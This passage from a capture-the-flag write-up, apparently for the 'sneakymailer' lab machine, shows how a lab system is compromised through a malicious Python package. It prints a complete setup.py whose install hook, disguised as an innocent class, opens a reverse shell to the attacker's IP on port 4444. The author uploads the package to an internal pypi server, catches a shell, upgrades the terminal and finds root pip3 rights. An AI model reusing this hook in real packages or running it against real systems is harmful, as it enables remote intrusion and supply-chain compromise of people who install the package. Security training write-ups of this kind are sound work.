 Now that we have it set up on our end, and the victim's port 5000 is reachable from our localhost, we need to set up our malicious setup.py file:

setup.py:

```
import socket
import struct
import subprocess
import os

from setuptools import setup
from setuptools.command.install import install


class TotallyInnocentClass(install):
    def run(self):
        s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        s.connect(("10.10.14.36",4444))
        os.dup2(s.fileno(),0)
        os.dup2(s.fileno(),1)
        os.dup2(s.fileno(),2)
        p=subprocess.call(["/bin/sh","-i"])

setup(
    cmdclass={
        "install": TotallyInnocentClass
    }
)
```

Now, we can upload the file to the remote pypi-server:

```
$ python setup.py sdist upload -r internal
running sdist
running egg_info
creating UNKNOWN.egg-info
writing UNKNOWN.egg-info/PKG-INFO
...
running upload
Submitting dist/UNKNOWN-0.0.0.tar.gz to http://localhost:5000
Server response (200): OK
```

Now, we just need to catch the shell!

```
$ id
uid=1000(low) gid=1000(low) groups=1000(low),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth),119(pypi-pkg)
```

We'll first upgrade our terminal and check if we can sudo anything without a password:

```
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
...
low@sneakymailer:~$ sudo -l
Matching Defaults entries for low on sneakymailer:                          ...
User low may run the following commands on sneakymailer:
    (root) NOPASSWD: /usr/bin/pip3


```

